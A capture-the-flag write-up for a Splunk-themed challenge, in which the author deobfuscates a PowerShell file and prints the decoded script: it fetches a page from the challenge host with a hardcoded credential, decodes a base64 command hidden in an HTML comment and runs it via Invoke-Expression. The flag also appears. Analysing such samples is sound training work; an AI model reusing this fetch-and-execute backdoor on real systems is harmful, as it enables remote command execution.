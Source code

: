 ### Challenge description

You've probably seen Splunk being used for good, but have you seen it used for evil?

NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.

### Solution

We download the files and digg into them. Nothing so far. We launch an instance and visit the page and see this error:
```json
{"error":"Missing or invalid Authorization header"}
```
We could be looking for a way to authenticare with a token.

Maybe we have something to look for now. Looking at the files, one has something obfuscated which is `dns-health.ps1`.

We deobfuscate the first string by pasting it in shell without the iex part or put it in CyberChef and use `From decimal` with the comma as a delimeter.

We get another string, we grab the `base64` string and decode it.

Here is what we get:
```powershell
# $PORT below is dynamic to the running service of the `Start` button
@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```
Nice! we got a token. We submit it and get a base64 string which is the flag.
```bash
curl http://challenge.ctf.games:31810/ -H "Authorization: Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0"
```
flag{e15a6c0168ee4de7381f502439014032}
